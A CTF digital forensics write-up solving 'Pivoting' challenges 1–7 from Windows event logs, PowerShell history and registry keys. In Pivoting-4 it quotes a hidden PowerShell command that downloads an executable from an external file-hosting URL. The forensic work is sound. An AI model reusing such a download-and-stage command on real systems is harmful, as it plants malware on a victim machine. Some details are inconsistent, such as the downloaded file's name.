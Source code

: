 ```yaml
---
title: ICMTC CTF - Pivoting[1-9]
author: NourhanYousef
classes: wide
ribbon: red
header:
  teaser: /assets/images/icmtc-logo.png 
date: 2023-07-3 17:00:00 +0800
categories: CTF
description: "ICMTC CTF Digital Forensics pivoting challenges from 1 to 9..."
---
```



# Description

**provided folders** : DC01, Workstation_1, workstation_2

**Used tools**: Event Viewer , registry explorer

---

# **Pivoting-1**

Q → What was the protocol used to logon to DC01?

in DC01 → eventlogs → logs

![Untitled](/assets/images/Pivoting/Untitled.png)

Upon analyzing the ***security*** logs file of **DC01** and filtering for Event ID 4624 (Logon Success) and 4648 (Logon with Explicit Credentials). During this examination, it was observed that the process "sshd.exe" was associated with these logon events. sshd.exe is the process responsible for facilitating SSH connections on the system. 

![Untitled](/assets/images/Pivoting/Untitled%201.png)

Flag ⇒ `EGCERT{SSH}`

---

# **Pivoting-2**

Q → What was the full path of the malicious downloaded file on Workstation_1?

In the ***workstation_1*** environment, within the **PowerShell →** **PSReadline,**  An analysis of the PowerShell activity revealed the presence of a script contained within a text file called ***ConsoleHost_history*** . the script downloads a file **axt_1.py** in C:\Program Files

flag ⇒ `EGCERT{C:\Program Files\atx_1.py}`

---

# **Pivoting-3**

Q → What is the name of the malicious executable that was downloaded on DC01?

exploring **DC01** ***windows PowerShell*** event logs I found a PowerShell script that downloads a file called mali.exe

![Untitled](/assets/images/Pivoting/Untitled%202.png)

flag ⇒ `EGCERT{mali.exe}`

---

# **Pivoting-4**

What was the command used to download the malicious executable on DC01? 

In the previous screenshot, a command was observed that indicates the downloading of a potentially malicious executable file. 

![Untitled](/assets/images/Pivoting/Untitled%203.png)

flag:

```php
EGCERT{powershell.exe -w hidden -noni -nop -exec EX [https://www.mediafire.com/file/3bytgnxqzimrns0/mali.exe](https://www.mediafire.com/file/3bytgnxqzimrns0/mali.exe)C:\Users\Administrator\Desktop\mali.exe}
```

---

# **Pivoting-5**

Q→ What was the technique used to access Workstation_2?

a significant number of failed logon attempts were identified. These logon attempts originated from a workstation named "kali" indicating that it was engaged in a brute force attack against workstation_2.

![Untitled](/assets/images/Pivoting/Untitled%204.png)

flag ⇒ `EGCERT{brute force}`

---

**Pivoting-6**

Q→ What was the entry point to the system? Note: Write the IP of the machine.

conducting the brute force attack on workstation_2 makes it seems to be the entry point of attack.  examining the registry of workstation_2 it would be found that in key **`SYSTEM\ControlSet001\Services\Tcpip\Parameters\Interfaces`** which contains network interface configurations and settings for the TCP/IP protocols 

looking at `subkey {7f91008d-beb6-41c6-9c5e-ade2ccbd964d}` I found `DhcpIPAddress` which  represents the IP address assigned to a network interface through DHCP

  

![Untitled](/assets/images/Pivoting/Untitled%205.png)

flag ⇒ `EGCERT{192.168.118.155}`

---

# **Pivoting-7**

Q→ Using the names (DCO1, Workstaion_1, Workstation_2),State the lateral movement sequence

as we found before, workstation_2 is the entry point, the next machine could be  Workstaion_1 or DC01, it’s more logical that Workstaion_1 is the next machine to move laterally then DC01

flag ⇒ `EGCERT{Workstation_2,Workstation_1,DC01}`

---